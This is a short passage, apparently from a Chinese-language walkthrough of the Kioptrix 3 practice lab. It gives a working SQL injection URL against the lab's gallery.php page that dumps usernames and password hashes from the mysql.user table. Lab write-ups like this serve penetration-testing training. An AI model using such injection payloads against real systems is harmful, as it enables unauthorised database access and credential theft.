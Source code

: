 <figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

之前用gobuster扫描的时候发现有一个phpmyadmin的页面，设这边使用SQL注入进一步查找登录凭证，

我们可以尝试使用 SQL 注入来转储mysql.user表

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(user,0x3a,password),3,4,5,6+from+mysql.user--
```

这里查询到了有用的信息
